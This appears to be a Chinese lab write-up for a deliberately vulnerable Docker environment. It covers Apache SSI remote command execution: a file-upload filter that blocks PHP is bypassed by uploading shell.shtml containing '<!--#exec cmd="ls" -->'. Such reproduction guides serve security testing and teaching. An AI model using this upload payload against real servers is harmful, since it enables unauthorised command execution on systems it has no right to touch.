


# Apache SSI 远程命令执行漏洞

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

参考链接：

- https://httpd.apache.org/docs/2.4/howto/ssi.html
- https://www.w3.org/Jigsaw/Doc/User/SSI.html

## 漏洞环境

运行一个支持SSI与CGI的Apache服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/upload.php`，即可看到一个上传表单。

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

```shtml
<!--#exec cmd="ls" -->
```



成功上传，然后访问shell.shtml，可见命令已成功执行：


